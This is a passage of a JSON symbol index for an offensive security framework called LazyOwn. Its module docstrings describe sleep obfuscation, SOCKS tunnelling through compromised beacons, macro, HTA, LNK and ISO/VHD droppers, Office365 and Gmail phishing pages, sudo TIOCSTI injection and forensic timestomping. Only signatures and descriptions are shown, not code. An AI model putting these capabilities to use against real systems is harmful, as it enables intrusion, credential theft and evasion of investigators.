run-time\nsleep obfuscation decisions.\n\nAttributes:\n    catalog: The technique catalog.\n    validator: The config validator.\n    config: The active runtime configuration.", "kind": "class", "line": 394, "name": "SleepObfuscationEngine", "signature": "class SleepObfuscationEngine"}, {"doc": "Serialize to dictionary.", "kind": "method", "line": 129, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build from dictionary.", "kind": "method", "line": 146, "name": "from_dict", "signature": "def from_dict(cls, raw)"}, {"kind": "method", "line": 170, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Register a technique in the catalog.", "kind": "method", "line": 173, "name": "register", "signature": "def register(self, technique)"}, {"doc": "Retrieve a technique by name. Raises KeyError if missing.", "kind": "method", "line": 177, "name": "get", "signature": "def get(self, name)"}, {"doc": "Return all registered techniques sorted by detection resistance.", "kind": "method", "line": 184, "name": "list_all", "signature": "def list_all(self)"}, {"doc": "Return techniques supported on a given platform.", "kind": "method", "line": 192, "name": "list_by_platform", "signature": "def list_by_platform(self, platform)"}, {"doc": "Return sorted list of technique names.", "kind": "method", "line": 196, "name": "list_names", "signature": "def list_names(self)"}, {"doc": "Validate config against a technique definition.\n\nReturns a list of error strings (empty = valid).", "kind": "method", "line": 369, "name": "validate", "signature": "def validate(config, technique)"}, {"doc": "Validate the config itself for internal consistency.", "kind": "method", "line": 386, "name": "validate_config", "signature": "def validate_config(config)"}, {"kind": "method", "line": 407, "name": "__init__", "signature": "def __init__(self, catalog)"}, {"doc": "Return the technique catalog.", "kind": "method", "line": 416, "name": "catalog", "signature": "def catalog(self)"}, {"doc": "Return the active runtime configuration.", "kind": "method", "line": 421, "name": "config", "signature": "def config(self)"}, {"doc": "Return the detection resistance score of the active technique.\n\nIf the active technique is not found in the catalog (e.g., custom\ncatalog was provided but config still references a built-in name),\nfall back to the highest available technique in the catalog.", "kind": "method", "line": 426, "name": "detection_resistance", "signature": "def detection_resistance(self)"}, {"doc": "Select a technique from the catalog.\n\nReturns the SleepTechnique. Raises KeyError if not found.", "kind": "method", "line": 442, "name": "select", "signature": "def select(self, technique_name)"}, {"doc": "Build a validated SleepObfuscationConfig for a technique.\n\nArgs:\n    technique: The SleepTechnique to configure.\n    overrides: Optional dict to override default config values.\n\nReturns:\n    A validated SleepObfuscationConfig ready for beacon embedding.", "kind": "method", "line": 449, "name": "configure", "signature": "def configure(self, technique, overrides)"}, {"doc": "Validate configuration against the active technique.\n\nArgs:\n    config: Optional config to validate. Uses self.config if None.\n\nReturns:\n    List of error strings (empty = valid).", "kind": "method", "line": 484, "name": "validate", "signature": "def validate(self, config)"}, {"doc": "Recommend techniques for a platform sorted by detection resistance.\n\nReturns techniques supported on the given platform, sorted with the\nhighest detection resistance first.", "kind": "method", "line": 500, "name": "recommend", "signature": "def recommend(self, platform)"}, {"doc": "Serialize the entire engine state to a dictionary.", "kind": "method", "line": 513, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build an engine from a serialized state dictionary.", "kind": "method", "line": 522, "name": "from_dict", "signature": "def from_dict(cls, raw)"}]}, {"doc": "Author: rewardone Description: Requires root or enough permissions to use tcpdump Will listen for the first 7 packets of a null login and grab the SMB Version Notes: Will sometimes not capture or will print multiple lines. May need to run a second time for success.", "id": "modules/smbver.sh", "kind": "module", "label": "smbver.sh", "language": "sh", "sha256": "2b17d7fe54d9210e", "symbol_count": 0, "symbols": []}, {"doc": "SOCKS5 proxy engine for tunneling traffic through LazyOwn beacons.  Provides a configuration-driven SOCKS5 proxy that allows operators to route external tools through a compromised beacon's network. Supports authentication, activity logging, connection limits, and bandwidth throttling.  The engine is designed as a specification-only module: it defines the protocol, configuration, and validation contracts without coupling to any specific transport implementation. Concrete transport adapters (e.g., WebSocket, HTTP long-poll) inject their own I/O layer.  Contracts: - SocksProxyConfig: immutable configuration for a SOCKS proxy instance - SocksAuthMethod: enumeration of supported authentication methods - SocksCommand: SOCKS5 command types (CONNECT, BIND, UDP) - SocksProxyEngine: validates config, builds proxy specs, tracks sessions - SocksSession: represents an active proxied connection - SocksValidator: validates config, client requests, and protocol states  Design (SOLID): - Single Responsibility: config, session, engine, validator are separate - Open/Closed: new auth methods added via enum without modifying engine - Liskov: session and config are safely substitutable dataclasses - Interface Segregation: engine exposes only spec/validation, not I/O - Dependency Inversion: depends on abstract config dict, not on sockets  Usage: from modules.socks_proxy import SocksProxyEngine", "id": "modules/socks_proxy.py", "kind": "module", "label": "socks_proxy.py", "language": "py", "sha256": "cc313dc485c34884", "symbol_count": 31, "symbols": [{"doc": "SOCKS5 authentication methods per RFC 1928.", "kind": "class", "line": 65, "name": "SocksAuthMethod", "signature": "class SocksAuthMethod(IntEnum)"}, {"doc": "SOCKS5 command types per RFC 1928.", "kind": "class", "line": 74, "name": "SocksCommand", "signature": "class SocksCommand(IntEnum)"}, {"doc": "SOCKS5 address types per RFC 1928.", "kind": "class", "line": 82, "name": "SocksAddressType", "signature": "class SocksAddressType(IntEnum)"}, {"doc": "SOCKS5 reply codes per RFC 1928.", "kind": "class", "line": 90, "name": "SocksReply", "signature": "class SocksReply(IntEnum)"}, {"doc": "Represents a single active proxied connection.\n\nAttributes:\n    session_id: Unique identifier for this session.\n    target_host: Destination hostname or IP address.\n    target_port: Destination TCP port.\n    beacon_client_id: Client ID of the beacon handling this session.\n    bytes_sent: Total bytes sent to target.\n    bytes_received: Total bytes received from target.\n    created_at: Unix timestamp of session creation.\n    last_activity: Unix timestamp of last data transfer.", "kind": "class", "line": 120, "name": "SocksSession", "signature": "class SocksSession"}, {"doc": "Configuration for a SOCKS5 proxy instance.\n\nAttributes:\n    bind_address: IP address to bind the proxy listener.\n    bind_port: TCP port to bind.\n    auth_methods: Ordered list of supported authentication methods.\n    username: Username for USERNAME_PASSWORD auth.\n    password: Password for USERNAME_PASSWORD auth.\n    max_connections: Maximum concurrent proxied connections.\n    session_timeout_seconds: Idle session timeout in seconds.\n    bandwidth_limit_bps: Maximum bandwidth in bytes per second (0 = unlimited).\n    allow_localhost: Allow connections to loopback addresses.\n    allow_private_ranges: Allow connections to RFC 1918 addresses.\n    allowed_ports: List of allowed destination ports (empty = all allowed).\n    denied_ports: List of denied destination ports.\n    log_connections: Enable connection logging.", "kind": "class", "line": 166, "name": "SocksProxyConfig", "signature": "class SocksProxyConfig"}, {"doc": "Validates SOCKS5 proxy configuration and request parameters.\n\nEnsures bind addresses are valid IPs, ports are in range,\nauthentication settings are consistent, and access control\nrules are well-formed.", "kind": "class", "line": 244, "name": "SocksValidator", "signature": "class SocksValidator"}, {"doc": "SOCKS5 proxy specification engine.\n\nProvides configuration, validation, and session management\nfor a SOCKS5 proxy tunneled through a LazyOwn beacon. Does\nnot handle I/O; concrete adapters inject their transport.\n\nAttributes:\n    config: The SOCKS proxy configuration.\n    validator: The configuration and request validator.\n    sessions: Active proxied sessions keyed by session_id.", "kind": "class", "line": 368, "name": "SocksProxyEngine", "signature": "class SocksProxyEngine"}, {"doc": "Return a human-readable message for this reply code.", "kind": "method", "line": 103, "name": "message", "signature": "def message(self)"}, {"doc": "Return seconds since session creation.", "kind": "method", "line": 144, "name": "elapsed_seconds", "signature": "def elapsed_seconds(self)"}, {"doc": "Serialize session to dictionary.", "kind": "method", "line": 150, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Serialize config to dictionary.", "kind": "method", "line": 199, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build config from dictionary.", "kind": "method", "line": 218, "name": "from_dict", "signature": "def from_dict(cls, raw)"}, {"doc": "Validate a SocksProxyConfig and return error messages.\n\nReturns an empty list if the config is valid.", "kind": "method", "line": 253, "name": "validate_config", "signature": "def validate_config(config)"}, {"doc": "Validate a SOCKS5 request against the proxy configuration.\n\nArgs:\n    command: SOCKS command byte (CONNECT, BIND, UDP_ASSOCIATE).\n    address_type: Address type byte (IPV4, DOMAIN, IPV6).\n    host: Target hostname or IP address.\n    port: Target port.\n    config: Optional proxy config for access control checks.\n\nReturns:\n    Tuple of (is_valid, reply_code, message).", "kind": "method", "line": 300, "name": "validate_request", "signature": "def validate_request(command, address_type, host, port, config)"}, {"doc": "Apply access control rules from proxy config.", "kind": "method", "line": 340, "name": "_check_access_control", "signature": "def _check_access_control(host, port, config)"}, {"kind": "method", "line": 381, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return the current proxy configuration.", "kind": "method", "line": 387, "name": "config", "signature": "def config(self)"}, {"doc": "Return active proxied sessions.", "kind": "method", "line": 392, "name": "sessions", "signature": "def sessions(self)"}, {"doc": "Return the number of active sessions.", "kind": "method", "line": 397, "name": "session_count", "signature": "def session_count(self)"}, {"doc": "Validate the configuration.\n\nArgs:\n    config: Optional config to validate. Uses self.config if None.\n\nReturns:\n    List of error strings (empty = valid).", "kind": "method", "line": 401, "name": "validate", "signature": "def validate(self, config)"}, {"doc": "Build a JSON-serializable proxy specification for beacon delivery.\n\nThe spec contains everything a beacon needs to set up a\nSOCKS5 proxy listener and relay traffic through its C2.", "kind": "method", "line": 413, "name": "build_spec", "signature": "def build_spec(self)"}, {"doc": "Create and track a new proxied session.\n\nReturns None if max_connections is reached.", "kind": "method", "line": 436, "name": "create_session", "signature": "def create_session(self, session_id, target_host, target_port, beacon_client_id)"}, {"doc": "Remove a session by ID. Returns True if it existed.", "kind": "method", "line": 475, "name": "remove_session", "signature": "def remove_session(self, session_id)"}, {"doc": "Return a session by ID, or None.", "kind": "method", "line": 482, "name": "get_session", "signature": "def get_session(self, session_id)"}, {"doc": "Update byte counters for a session.", "kind": "method", "line": 486, "name": "add_bytes", "signature": "def add_bytes(self, session_id, sent, received)"}, {"doc": "Remove sessions that have exceeded the timeout. Returns count removed.", "kind": "method", "line": 497, "name": "cleanup_expired", "signature": "def cleanup_expired(self)"}, {"doc": "Return a list of all active sessions as dictionaries.", "kind": "method", "line": 511, "name": "list_sessions", "signature": "def list_sessions(self)"}, {"doc": "Return the session_id of the least recently active session.", "kind": "method", "line": 515, "name": "_find_oldest_session", "signature": "def _find_oldest_session(self)"}, {"doc": "Build a SocksProxyEngine from a configuration dictionary.", "kind": "method", "line": 522, "name": "from_dict", "signature": "def from_dict(cls, raw)"}, {"doc": "Build a SocksProxyEngine from a LazyOwn payload configuration.", "kind": "method", "line": 528, "name": "from_payload", "signature": "def from_payload(cls, payload)"}]}, {"doc": "Staged payload delivery — HTA, Office macros, LNK files, ISO/VHD packaging.  Generates droppers and delivery mechanisms for initial access. Covers five delivery vectors: HTA applications, Office VBA macros with XML 4.0 support, Windows LNK shortcut files (.lnk), ISO image packaging, and VHD disk packaging.  All payloads embed connection parameters from payload.json and support multiple payload formats (PowerShell, VBScript, JavaScript, binary droppers).", "id": "modules/staged_delivery.py", "kind": "module", "label": "staged_delivery.py", "language": "py", "sha256": "66cc82236e1a062e", "symbol_count": 18, "symbols": [{"doc": "Configuration for staged payload delivery.\n\nAttributes:\n    lhost: Attacker IP or hostname.\n    lport: Listener port.\n    format: Delivery format (hta, vba, xlm, lnk, iso, vhd).\n    payload_type: Embedded payload type (powershell, vbscript, js, exe, dll).\n    payload_url: Optional URL to host the stage (overrides inline embedding).\n    app_name: Display name for Office macro documents.\n    icon_path: Icon file path for .lnk generation.\n    persistence: Add persistence after delivery (registry, scheduled task).\n    obfuscate: Apply obfuscation to embedded scripts.", "kind": "class", "line": 25, "name": "StageDeliveryConfig", "signature": "class StageDeliveryConfig"}, {"doc": "Generate staged payloads across multiple delivery vectors.\n\nSupports HTA, VBA/XLM macros, LNK shortcuts, ISO images, and VHD disks.\nAll payloads embed a reverse shell or C2 beacon stage.\n\nAttributes:\n    config: Delivery configuration from payload.json context.\n    output_dir: Directory for generated delivery artifacts.", "kind": "class", "line": 51, "name": "StagedDeliveryFactory", "signature": "class StagedDeliveryFactory"}, {"kind": "method", "line": 83, "name": "__init__", "signature": "def __init__(self, config, output_dir)"}, {"kind": "method", "line": 88, "name": "_obfuscate_powershell", "signature": "def _obfuscate_powershell(self, code)"}, {"kind": "method", "line": 95, "name": "_obfuscate_vbscript", "signature": "def _obfuscate_vbscript(self, code)"}, {"kind": "method", "line": 102, "name": "_payload_command", "signature": "def _payload_command(self)"}, {"doc": "Generate an HTA (HTML Application) dropper.\n\nHTAs execute with mshta.exe and have full trust — no security warnings.\n\nReturns:\n    HTA file content as string with embedded payload.", "kind": "method", "line": 134, "name": "generate_hta", "signature": "def generate_hta(self)"}, {"doc": "Generate a VBA macro for Office documents (Word/Excel).\n\nReturns:\n    VBA macro source ready for Document_Open or Auto_Open.", "kind": "method", "line": 171, "name": "generate_vba_macro", "signature": "def generate_vba_macro(self)"}, {"doc": "Generate an Excel 4.0 (XLM) macro for legacy macro execution.\n\nXLM macros evade many modern macro analysis tools and still execute\nin current Excel versions with VBA macro settings enabled.\n\nReturns:\n    XLM macro formula sheet content.", "kind": "method", "line": 219, "name": "generate_xlm_macro", "signature": "def generate_xlm_macro(self)"}, {"doc": "Generate a Windows .lnk shortcut file with embedded command execution.\n\nReturns:\n    Raw .lnk file bytes.", "kind": "method", "line": 237, "name": "generate_lnk", "signature": "def generate_lnk(self)"}, {"doc": "Generate an ISO 9660 image with an embedded payload autorun.\n\nArgs:\n    inner_files: Dict mapping filenames to byte contents for the ISO.\n\nReturns:\n    Raw ISO 9660 image bytes.", "kind": "method", "line": 301, "name": "generate_iso", "signature": "def generate_iso(self, inner_files)"}, {"kind": "method", "line": 336, "name": "_build_primary_volume_descriptor", "signature": "def _build_primary_volume_descriptor(self, files)"}, {"doc": "Generate a VHD (Virtual Hard Disk) image with embedded payloads.\n\nVHD files auto-mount on Windows 10+ when double-clicked, providing\nan alternative delivery vector that bypasses mark-of-the-web.\n\nArgs:\n    inner_files: Dict of filenames to byte contents.\n\nReturns:\n    Raw VHD file bytes.", "kind": "method", "line": 370, "name": "generate_vhd", "signature": "def generate_vhd(self, inner_files)"}, {"doc": "Generate all delivery formats for the current configuration.\n\nReturns:\n    Dict mapping format name to artifact content or file path.", "kind": "method", "line": 420, "name": "generate_all", "signature": "def generate_all(self)"}, {"doc": "Generate a credential harvesting HTML page.\n\nArgs:\n    template: Phishing template name (office365, gmail, outlook, custom).\n\nReturns:\n    HTML content for a credential harvesting page.", "kind": "method", "line": 460, "name": "generate_phishing_page", "signature": "def generate_phishing_page(self, template)"}, {"kind": "method", "line": 476, "name": "_office365_phish", "signature": "def _office365_phish(self)"}, {"kind": "method", "line": 504, "name": "_gmail_phish", "signature": "def _gmail_phish(self)"}, {"kind": "method", "line": 532, "name": "_outlook_phish", "signature": "def _outlook_phish(self)"}]}, {"doc": "UnifiedStateManager — single source of truth for all LazyOwn campaign state.  Replaces the fragmented state systems (LazyOwnDB SQLite, WorldModel JSON, FactStore JSON, SessionState JSON, ObjectiveStore JSONL) with one API that: - Uses SQLite (LazyOwnDB) as the persistent backend - Maintains JSON caches for backward compatibility and fast reads - Publishes events via UnifiedEventBus on every state mutation - Syncs WorldModel in-memory graph from DB on demand  Design (SOLID) -------------- - Single Responsibility : owns all campaign state CRUD as one coherent API. - Open/Closed           : new entity types added via the same add/get/list pattern. - Liskov                : all state operations return typed dicts or dataclasses. - Interface Segregation : each domain (hosts, services, creds, etc.) is a logical group, not a separate interface. - Dependency Inversion  : consumers depend on StateManager, not on DB or files.", "id": "modules/state_manager.py", "kind": "module", "label": "state_manager.py", "language": "py", "sha256": "0a0c1da45198c479", "symbol_count": 41, "symbols": [{"kind": "function", "line": 43, "name": "_load_json", "signature": "def _load_json(path)"}, {"kind": "function", "line": 53, "name": "_save_json", "signature": "def _save_json(path, data)"}, {"kind": "class", "line": 65, "name": "HostSummary", "signature": "class HostSummary"}, {"kind": "class", "line": 76, "name": "SessionSnapshot", "signature": "class SessionSnapshot"}, {"doc": "Unified campaign state API backed by SQLite with JSON caches.\n\nUsage::\n\n    sm = StateManager()\n    sm.add_host(\"10.0.0.1\", hostname=\"dc01\", os=\"Windows Server 2019\")\n    sm.add_service(\"10.0.0.1\", 445, \"tcp\", \"microsoft-ds\", \"SMB\")\n    sm.add_credential(\"10.0.0.1\", \"admin\", \"P@ssw0rd\", origin=\"crackmapexec\")\n    snapshot = sm.session_snapshot()", "kind": "class", "line": 92, "name": "StateManager", "signature": "class StateManager"}, {"kind": "function", "line": 776, "name": "get_state_manager", "signature": "def get_state_manager()"}, {"kind": "method", "line": 107, "name": "__init__", "signature": "def __init__(self, db_path, sessions_dir, world_model_path, facts_path)"}, {"kind": "method", "line": 129, "name": "instance", "signature": "def instance(cls)"}, {"kind": "method", "line": 137, "name": "db", "signature": "def db(self)"}, {"kind": "method", "line": 146, "name": "workspace_id", "signature": "def workspace_id(self)"}, {"kind": "method", "line": 151, "name": "_ensure_workspace", "signature": "def _ensure_workspace(self)"}, {"kind": "method", "line": 165, "name": "set_payload", "signature": "def set_payload(self, payload)"}, {"kind": "method", "line": 169, "name": "_publish", "signature": "def _publish(self, category, event_type, payload)"}, {"doc": "Find a host by exact address match.", "kind": "method", "line": 184, "name": "_find_host", "signature": "def _find_host(self, address)"}, {"doc": "Get credentials for a specific host_id.", "kind": "method", "line": 192, "name": "_cred_list_for_host", "signature": "def _cred_list_for_host(self, host_id)"}, {"doc": "Get vulnerabilities for a specific host_id.", "kind": "method", "line": 197, "name": "_vuln_list_for_host", "signature": "def _vuln_list_for_host(self, host_id)"}, {"kind": "method", "line": 202, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 213, "name": "add_host", "signature": "def add_host(self, address, mac, hostname, os, state)"}, {"kind": "method", "line": 236, "name": "get_host", "signature": "def get_host(self, address)"}, {"kind": "method", "line": 245, "name": "list_hosts", "signature": "def list_hosts(self)"}, {"kind": "method", "line": 249, "name": "advance_host", "signature": "def advance_host(self, address, new_state)"}, {"kind": "method", "line": 275, "name": "delete_host", "signature": "def delete_host(self, address)"}, {"kind": "method", "line": 287, "name": "add_service", "signature": "def add_service(self, host_address, port, protocol, name, product, version, state)"}, {"kind": "method", "line": 319, "name": "list_services", "signature": "def list_services(self, host_address)"}, {"kind": "method", "line": 328, "name": "add_credential", "signature": "def add_credential(self, host_address, username, password, realm, cred_type, origin)"}, {"kind": "method", "line": 362, "name": "list_credentials", "signature": "def list_credentials(self, host_address)"}, {"kind": "method", "line": 373, "name": "add_vulnerability", "signature": "def add_vulnerability(self, host_address, name, severity, description, refs)"}, {"kind": "method", "line": 398, "name": "list_vulnerabilities", "signature": "def list_vulnerabilities(self, host_address, severity)"}, {"kind": "method", "line": 411, "name": "add_loot", "signature": "def add_loot(self, name, loot_type, path, notes, host_address)"}, {"kind": "method", "line": 444, "name": "list_loot", "signature": "def list_loot(self)"}, {"kind": "method", "line": 450, "name": "add_note", "signature": "def add_note(self, data, note_type, host_address)"}, {"kind": "method", "line": 473, "name": "list_notes", "signature": "def list_notes(self)"}, {"kind": "method", "line": 479, "name": "import_nmap_xml", "signature": "def import_nmap_xml(self, xml_path)"}, {"doc": "Import hosts and services from a FactStore-style facts dict into DB.", "kind": "method", "line": 495, "name": "import_nmap_from_facts", "signature": "def import_nmap_from_facts(self, facts)"}, {"kind": "method", "line": 550, "name": "status", "signature": "def status(self)"}, {"kind": "method", "line": 556, "name": "_sync_world_model_cache", "signature": "def _sync_world_model_cache(self)"}, {"kind": "method", "line": 606, "name": "get_world_model_cache", "signature": "def get_world_model_cache(self)"}, {"doc": "Return a WorldModel instance populated from DB state.", "kind": "method", "line": 612, "name": "load_world_model", "signature": "def load_world_model(self)"}, {"kind": "method", "line": 653, "name": "session_snapshot", "signature": "def session_snapshot(self)"}, {"kind": "method", "line": 757, "name": "export_csv", "signature": "def export_csv(self, table)"}, {"kind": "method", "line": 761, "name": "export_summary", "signature": "def export_summary(self)"}]}, {"doc": "tiocsti_advanced.py – Production‑grade TIOCSTI injection with multiple attack modes. Usage: python3 tiocsti_advanced.py --mode poll|prefill|cache --payload \"command\" Run in background: nohup python3 tiocsti_advanced.py --mode poll &", "id": "modules/sudo_tiocsti.py", "kind": "module", "label": "sudo_tiocsti.py", "language": "py", "sha256": "bda03209d318c68e", "symbol_count": 9, "symbols": [{"doc": "Return (file_descriptor, tty_path) for the controlling terminal.", "kind": "function", "line": 52, "name": "get_controlling_tty", "signature": "def get_controlling_tty()"}, {"doc": "Inject a single byte via TIOCSTI; return success status.", "kind": "function", "line": 64, "name": "inject_byte", "signature": "def inject_byte(fd, byte_char)"}, {"doc": "Inject a multi‑character payload. Returns True if all characters were\nsuccessfully injected (with retries). char_delay simulates typing speed.", "kind": "function", "line": 79, "name": "inject_payload", "signature": "def inject_payload(fd, payload, char_delay)"}, {"doc": "Return a list of PIDs that are running 'sudo' and have the same\ncontrolling terminal as the given tty_path.", "kind": "function", "line": 102, "name": "get_sudo_pids_on_tty", "signature": "def get_sudo_pids_on_tty(tty_path)"}, {"doc": "Return True if sudo credentials are cached (i.e., sudo -n succeeds).", "kind": "function", "line": 139, "name": "sudo_cache_valid", "signature": "def sudo_cache_valid()"}, {"doc": "Poll for sudo processes; inject payload when sudo exits.", "kind": "function", "line": 149, "name": "mode_poll", "signature": "def mode_poll(fd, tty_path)"}, {"doc": "Inject payload repeatedly, regardless of sudo state.", "kind": "function", "line": 175, "name": "mode_prefill", "signature": "def mode_prefill(fd)"}, {"doc": "Check sudo cache; if valid, inject sudo -i once.", "kind": "function", "line": 185, "name": "mode_cache", "signature": "def mode_cache(fd)"}, {"kind": "function", "line": 198, "name": "main", "signature": "def main()"}]}, {"doc": "Pure attack-surface helpers (no cmd2): discovery targets, confirm parsing.  Used by the ``surface`` CommandSet and unit-tested without the shell.", "id": "modules/surface_ops.py", "kind": "module", "label": "surface_ops.py", "language": "py", "sha256": "bd33bf7b61789955", "symbol_count": 4, "symbols": [{"doc": "Return True for dotted-quad IPv4 literals with 0-255 octets.", "kind": "function", "line": 18, "name": "is_ipv4", "signature": "def is_ipv4(value)"}, {"doc": "Return True for an affirmative scan confirmation answer.", "kind": "function", "line": 26, "name": "parse_confirm", "signature": "def parse_confirm(answer)"}, {"doc": "List every discovery IP across the sessions discovery files.", "kind": "function", "line": 31, "name": "discovery_targets", "signature": "def discovery_targets(sessions_dir)"}, {"doc": "Append unknown estorides host IPs to world_model.json hosts.", "kind": "function", "line": 50, "name": "write_world_model_hosts", "signature": "def write_world_model_hosts(document, sessions)"}]}, {"id": "modules/tel.py", "kind": "module", "label": "tel.py", "language": "py", "sha256": "bf89e4dc35618b1c", "symbol_count": 6, "symbols": [{"kind": "function", "line": 10, "name": "get_machine_id", "signature": "def get_machine_id()"}, {"kind": "function", "line": 24, "name": "get_version", "signature": "def get_version()"}, {"doc": "Simula la función toNumbers de JavaScript", "kind": "function", "line": 36, "name": "to_numbers", "signature": "def to_numbers(hex_str)"}, {"doc": "Simula la función toHex de JavaScript", "kind": "function", "line": 41, "name": "to_hex", "signature": "def to_hex(byte_list)"}, {"doc": "Descifra usando AES en modo CBC (como slowAES.decrypt(c,2,a,b))", "kind": "function", "line": 46, "name": "decrypt_cookie", "signature": "def decrypt_cookie(encrypted, key, iv)"}, {"doc": "Sistema de telemetría de uso por instalación no invasiva.", "kind": "function", "line": 53, "name": "main", "signature": "def main()"}]}, {"id": "modules/test_lazyencoder_decoder.py", "kind": "module", "label": "test_lazyencoder_decoder.py", "language": "py", "sha256": "7b69a600b55bd4fc", "symbol_count": 0, "symbols": []}, {"doc": "threat_model.py — Blue team threat model builder for LazyOwn.  Reads LazyOwn_session_report.csv + sessions/ artefacts, maps commands to MITRE ATT&CK tactics/techniques, and produces a structured JSON threat model consumable by a blue team application.  Outputs: sessions/reports/threat_model.json  Schema (threat_model.json) -------------------------- { \"generated_at\": \"ISO-8601\", \"assets\": [ { \"ip\": str, \"domain\": str, \"ports\": [int, ...], \"risk_score\": 0-100, \"compromise_indicators\": [str, ...] } ], \"ttps\": [ { \"technique_id\": str,        # T1234.001 \"tactic\": str,              # Initial Access \"technique_name\": str, \"commands\": [str, ...],     # LazyOwn commands that map here \"occurrences\": int, \"first_seen\": ISO-8601, \"last_seen\":  ISO-8601, \"severity\": \"low|medium|high|critical\",", "id": "modules/threat_model.py", "kind": "module", "label": "threat_model.py", "language": "py", "sha256": "8ef63007cd89b3a3", "symbol_count": 16, "symbols": [{"kind": "function", "line": 245, "name": "_extract_iocs", "signature": "def _extract_iocs(text, first_seen)"}, {"doc": "Builds and serialises the blue team threat model.", "kind": "class", "line": 267, "name": "ThreatModelBuilder", "signature": "class ThreatModelBuilder"}, {"kind": "function", "line": 592, "name": "get_builder", "signature": "def get_builder()"}, {"kind": "method", "line": 270, "name": "build", "signature": "def build(self)"}, {"kind": "method", "line": 293, "name": "load", "signature": "def load(self)"}, {"kind": "method", "line": 305, "name": "_load_csv", "signature": "def _load_csv(self)"}, {"kind": "method", "line": 318, "name": "_build_assets", "signature": "def _build_assets(self, rows)"}, {"kind": "method", "line": 352, "name": "_risk_score", "signature": "def _risk_score(self, commands, ports)"}, {"kind": "method", "line": 388, "name": "_compromise_indicators", "signature": "def _compromise_indicators(self, commands)"}, {"kind": "method", "line": 404, "name": "_build_ttps", "signature": "def _build_ttps(self, rows)"}, {"kind": "method", "line": 444, "name": "_build_iocs", "signature": "def _build_iocs(self, rows)"}, {"kind": "method", "line": 475, "name": "_build_detection_rules", "signature": "def _build_detection_rules(self, ttps)"}, {"doc": "Purple team mapping: pair each observed TTP with its detection rule.\n\nEach entry exposes:\n  red:   commands used, first/last seen, occurrences\n  blue:  detection rule (log_source, condition, response) — or None if gap\n  gap:   True when no detection rule covers this technique", "kind": "method", "line": 505, "name": "_build_purple_team", "signature": "def _build_purple_team(self, ttps, detection_rules)"}, {"kind": "method", "line": 560, "name": "_build_summary", "signature": "def _build_summary(self, rows, assets, ttps)"}, {"kind": "method", "line": 578, "name": "_save", "signature": "def _save(self, model)"}, {"kind": "function", "line": 448, "name": "_add", "signature": "def _add(ioc)"}]}, {"doc": "LazyOwn Timeline Narrator ========================== Reads events.jsonl, groups them into time windows, and asks Groq to generate a concise red-team prose narrative. Writes sessions/timeline.md.  The narrative reads like a penetration test report timeline: \"10:32 — Initial reconnaissance revealed an open HTTP port on 10.10.11.78. 10:35 — SMB enumeration was initiated after detecting port 445 ...\"  Public API: narrate(api_key: str | None, force: bool) -> str Builds and returns the narrative text, writes timeline.md. Set force=True to regenerate even if file is fresh (< 5 min old).  load_timeline() -> str Return the last written timeline.md, or empty string.", "id": "modules/timeline_narrator.py", "kind": "module", "label": "timeline_narrator.py", "language": "py", "sha256": "81df01f2cebf1d0c", "symbol_count": 6, "symbols": [{"kind": "function", "line": 57, "name": "_load_events", "signature": "def _load_events(n)"}, {"kind": "function", "line": 77, "name": "_format_events_for_prompt", "signature": "def _format_events_for_prompt(events)"}, {"doc": "Returns (narrative_text, backend_used).", "kind": "function", "line": 97, "name": "_call_ai", "signature": "def _call_ai(api_key, events_text, target)"}, {"kind": "function", "line": 115, "name": "_write_timeline", "signature": "def _write_timeline(narrative, event_count, target)"}, {"doc": "Generate and return the timeline narrative. Writes timeline.md.", "kind": "function", "line": 130, "name": "narrate", "signature": "def narrate(api_key, force)"}, {"doc": "Return the last written timeline.md or empty string.", "kind": "function", "line": 165, "name": "load_timeline", "signature": "def load_timeline()"}]}, {"doc": "Filesystem timestomping — MACB timestamp manipulation for stealth.  Modifies file MACB (Modified, Accessed, Created, Birth) timestamps to evade forensic timeline analysis. Supports Windows (SetFileTime via PowerShell/C), Linux (touch + debugfs + utimes), and macOS (touch + xattr).  Integrates with the forensic cleaner to ensure cleaned artifacts blend with legitimate system files. Includes batch timestomping, reference file cloning, and randomized timestamp selection within time windows.", "id": "modules/timestomper.py", "kind": "module", "label": "timestomper.py", "language": "py", "sha256": "bb244105e043a8e7", "symbol_count": 12, "symbols": [{"doc": "Configuration for filesystem timestomping operations.\n\nAttributes:\n    target_platform: windows, linux, or macos.\n    reference_path: Clone timestamps from this file (legitimate system file).\n    target_paths: List of files to modify timestamps on.\n    random_window_days: Randomize timestamps within this many days of reference.\n    preserve_order: Maintain relative timestamp ordering between files.\n    recursive: Apply to all files in target directories.\n    include_patterns: Only timestomp files matching these patterns.\n    exclude_patterns: Skip files matching these patterns.\n    batch_mode: Stomp all files in a directory in a single pass.", "kind": "class", "line": 24, "name": "TimestompConfig", "signature": "class TimestompConfig"}, {"doc": "MACB timestamps for a single file.\n\nAttributes:\n    path: Absolute file path.\n    created: Creation/birth time (Unix epoch).\n    modified: Last write time.\n    accessed: Last access time.\n    entry_modified: Metadata change time (linux only).", "kind": "class", "line": 51, "name": "FileTimestamps", "signature": "class FileTimestamps"}, {"doc": "Cross-platform filesystem timestamp manipulation.\n\nGenerates platform-specific commands for modifying file MACB timestamps\nto blend with legitimate system files and evade forensic timeline analysis.\n\nAttributes:\n    config: TimestompConfig with target paths and reference timestamps.", "kind": "class", "line": 69, "name": "Timestomper", "signature": "class Timestomper"}, {"kind": "method", "line": 106, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Generate PowerShell commands for Windows file timestomping.\n\nUses .NET System.IO.File to modify Created, LastWriteTime,\nand LastAccessTime for target files.\n\nReturns:\n    Dict with PowerShell commands and verification steps.", "kind": "method", "line": 110, "name": "windows_timestomp_powershell", "signature": "def windows_timestomp_powershell(self)"}, {"doc": "Generate C code for Windows timestomping via SetFileTime API.\n\nUsing C directly allows more control and avoids PowerShell logging.\n\nReturns:\n    C source code string.", "kind": "method", "line": 152, "name": "windows_timestomp_c", "signature": "def windows_timestomp_c(self)"}, {"doc": "Generate Linux commands for file timestomping.\n\nUses touch, debugfs, and utimes syscall wrappers to modify\nfile timestamps at the filesystem level.\n\nReturns:\n    Dict with bash commands for MACB manipulation.", "kind": "method", "line": 200, "name": "linux_timestomp_commands", "signature": "def linux_timestomp_commands(self)"}, 